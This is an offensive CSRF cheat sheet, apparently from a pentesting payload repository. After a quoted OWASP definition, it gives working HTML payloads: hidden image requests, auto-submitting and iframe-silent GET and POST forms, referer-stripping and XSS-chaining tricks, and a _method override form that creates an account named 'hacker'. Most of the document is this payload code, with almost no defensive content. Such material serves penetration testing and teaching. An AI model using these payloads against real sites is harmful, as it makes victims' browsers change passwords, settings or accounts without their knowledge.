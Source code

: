 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

### Form Auto-Submission
```html
<html>
	<head>
  		<meta charset="UTF-8">
	</head> 	
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Silent Form Auto-Submission (No Redirection)
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='GET' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## POST Requests Exploits

### Form Auto-Submission
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Silent Form Auto-Submission (No Redirection)
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 	
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy.

## Protection Bypass

### Referer Header Check Bypass

#### Send a request with no `Referer` header 

`<meta name="referrer" content="no-referrer">`

#### Chain CSRF vulnerability with XSS

`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`

### HTTP Method Check Bypass through HTTP Method Tunneling :

#### `X-HTTP-Method-Override` Method

Not all clients can properly issue all HTTP Methods, then some servers offer an HTTP Method Tunneling feature that enables us to "encapsulate" an HTTP Method into another. To do so simply write the HTTP Method request to invoke in an `X-HTTP-Method-Override` HTTP Header and issue the request with a supported method.

This is also a very handy trick to bypass Firewall restrictions on HTTP methods.


#### `_method` Parameter Method

**Supported on :**

**Symfony**

* 2.2 / >=2.3 ([Disabled by default / Enabled by default](https://symfony.com/doc/2.6/cookbook/routing/method_parameters.html#faking-the-method-with-method))

**Laravel**

* \>=4.1 ([Enabled by default](https://laravel.com/docs/5.6/routing#form-method-spoofing))

```html
<html>
	<body>
		<form action="http://[HOST]/user/add" method="POST">
			<input name="_method" type="hidden" value="ARBITRARY_METHOD" />
			<input name="user" type="hidden" value="hacker" />
			<input name="password" type="hidden" value="pwd" />
		</form>
		<script>document.forms[0].submit()</script>
	</body>
</html>
```

#### References : 

[Minded Security - Request parameter "_method" may lead to CakePHP CSRF Token Bypass](http://blog.mindedsecurity.com/2016/01/request-parameter-method-may-lead-to.html)
